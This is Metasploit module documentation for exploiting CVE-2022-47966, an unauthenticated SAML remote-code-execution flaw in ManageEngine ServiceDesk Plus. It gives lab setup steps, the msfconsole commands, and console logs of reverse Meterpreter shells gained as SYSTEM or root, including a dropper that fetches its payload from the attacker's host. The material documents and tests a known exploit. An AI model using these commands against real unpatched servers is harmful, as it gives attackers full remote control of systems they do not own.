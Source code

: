 ## Vulnerable Application

This exploits an unauthenticated remote code execution vulnerability that
affects Zoho ManageEngine ServiceDesk Plus versions 14003 and below
(CVE-2022-47966). Due to a dependency to an outdated library (Apache Santuario
version 1.4.1), it is possible to execute arbitrary code by providing a crafted
`samlResponse` XML to the ServiceDesk Plus SAML endpoint. Note that the target
is only vulnerable if it has been configured with SAML-based SSO at least once
in the past, regardless of the current SAML-based SSO status.


## Installation

### SAML 2.0 Identity Provider
If you don't have an already SAML 2.0 Identity Provider (IdP), you can use this
free one for testing: https://mocksaml.com/

Save the certificate to a local file (e.g. `cert.cer`) and take note of the SSO
URL (`https://mocksaml.com/api/saml/sso`).

### Download the installers
Go to https://archives.manageengine.com/, fill the form with any data and
select ServiceDesk Plus product with any version (e.g. `14003`). You can then
have access to all the versions and platform installers.

### Windows
1. Launch the Windows installer and select all the default options by clicking
   `Next` (you can skip the Registration for Technical Support part, it is
   optional). When the installation is done, select `Start ServiceDesk Server`
   and click `Finish`
1. Go to `C:\Program Files\ManageEngine\ServiceDesk\bin\` and run `SDPLaunch`.
   This will start a browser and get you to the login page.

### Linux (Ubuntu)
1. Make the installer executable executing `chmod +x <linux_installer>.bin`
1. Launch the Linux installer as root, select all the default options by
   clicking `Next` until you reach the installation path page.
1. Change the installation path to somewhere else than under `/root/` (it
   doesn't work with this default path) and finish the installation. You might
   get an error 'Problem in initializing Postgres', just ignore it, click `OK`
   and finish the installation. We'll fix this in the next step.
1. If you got the `Postgres` error in the last step, go to the installation
   base path (e.g. '/opt/ManageEngine/ServiceDesk/') and run the following
   commands as root:
    - `cp tools/postgres/bin/gettimezone tools/postgres/bin/gettimezone_32`
    - `cp tools/postgres/bin/gettimezone_64 tools/postgres/bin/gettimezone`
    - `cd bin`
    - `./initPgsql.sh`
1. Start the server running `run.sh`

### Enable SAML 2.0 SSO
1. Go to `http://localhost:8080`
1. Select `Log in as` `Administrator`.
1. Go to `http://localhost:8080/app#/admin` and click on `SAML Single Sign On`
   in the `​​Users & Permission` section.
1. In `Configure Identity Provider Details`, set the SSO URL from the IdP (e.g.
   `https://mocksaml.com/api/saml/sso`), set the `Name ID Format` to
   `Unspecified`, the `Algorithm` to `RSA_SHA1` and select the SiP certificate
   file (e.g. `cert.cer`).
1. In `Additional Claims` > `Default Fields`, set the `Login Name` to any
   value.
1. Click `Save`
1. Enable SSO by switching the `Enable SAML Single Sign-On ?` button on the top
   of the page.


## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966`
1. Do: `exploit rhosts=<remote host IP> lhost=<local host IP>`
1. You should get a shell
1. Also test with other targets against Windows and Linux


## Options

### TARGETURI
The ServiceDesk Plus SAML endpoint URL. Set to `/SamlResponseServlet` by default.

### DELAY
This sets the number of seconds to wait between each request. It is
particularly useful when using a big payload with the `cmdstager` (Target 0),
which requires sending multiple requests to the target. ServiceDesk Plus has an
anti-DoS mechanism that blocks the source IP address if requests are sent too
fast. This option is set to 5 seconds by default, which seems to be a safe
value.


## Scenarios

### ServiceDesk Plus versions 14003 on Windows - Target 1 (`Windows Command`)
```
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.104 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.100.104
[*] Meterpreter session 1 opened (192.168.100.1:4444 -> 192.168.100.104:51417) at 2023-01-26 12:07:43 +0100

meterpreter > sysinfo
Computer        : DESKTOP-26CQRHP
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### ServiceDesk Plus versions 14003 on Windows - Target 0 (`Windows EXE Dropper`)
```
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > set target 0
target => 0
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.104 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (200774 bytes) to 192.168.100.104
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.104:51435) at 2023-01-26 12:08:42 +0100
[*] Command Stager progress - 100.00% done (12025/12025 bytes)

meterpreter > sysinfo
Computer        : DESKTOP-26CQRHP
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### ServiceDesk Plus versions 14003 on Linux (Ubuntu) - Target 2 (`Unix Command`)
```
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > set target 2
target => 2
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.109 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (24380 bytes) to 192.168.100.109
[*] Meterpreter session 1 opened (192.168.100.1:4444 -> 192.168.100.109:43062) at 2023-01-26 16:07:21 +0100

meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 5.15.0-58-generic #64~20.04.1-Ubuntu SMP Fri Jan 6 16:42:31 UTC 2023
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > getuid
Server username: root
```

### ServiceDesk Plus versions 14003 on Linux (Ubuntu) - Target 2 (`Unix Dropper`)
```
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > set target 3
target => 3
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.109 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Using URL: http://192.168.100.1:8080/55oyjyc1i
[*] Client 192.168.100.109 (curl/7.68.0) requested /55oyjyc1i
[*] Sending payload to 192.168.100.109 (curl/7.68.0)
[*] Sending stage (3045348 bytes) to 192.168.100.109
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.109:40138) at 2023-01-26 16:09:37 +0100
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.109
OS           : Ubuntu 20.04 (Linux 5.15.0-58-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```

